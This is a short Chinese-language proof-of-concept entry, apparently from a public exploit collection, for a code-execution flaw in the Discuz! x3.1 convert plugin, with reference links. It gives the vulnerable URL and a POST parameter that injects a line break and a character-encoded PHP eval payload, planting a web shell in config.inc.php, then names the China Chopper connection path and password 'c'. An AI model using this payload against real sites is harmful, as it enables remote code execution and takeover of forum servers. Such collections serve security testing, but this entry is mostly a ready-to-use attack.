 参考链接：
https://www.cnblogs.com/milantgh/p/4199432.html

http://sh4d0w.lofter.com/post/1cb55ec4_2d35857

https://www.secpulse.com/archives/2338.html

https://bugs.shuimugan.com/bug/view?bug_no=80723
#### 演示4：Discuz! x3.1 convert插件代码执行漏洞
在该链接下：http://www.test.ichunqiu/bbs/admincp.php?/utility/convert/index.php?a=config&source=d7.2_x2.0
发送如下POST请求包(设置newconfig[aaa%0a%0deval(CHR(101).CHR(118).CHR(97).CHR(108).CHR(40).CHR(34).CHR(36).CHR(95).CHR(80).CHR(79).CHR(83).CHR(84).CHR(91).CHR(99).CHR(93).CHR(59).CHR(34).CHR(41).CHR(59));//]=aaaa)。

![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/57.png)

菜刀连接地址www.test.ichunqiu/utility/convert/data/config.inc.php 密码c
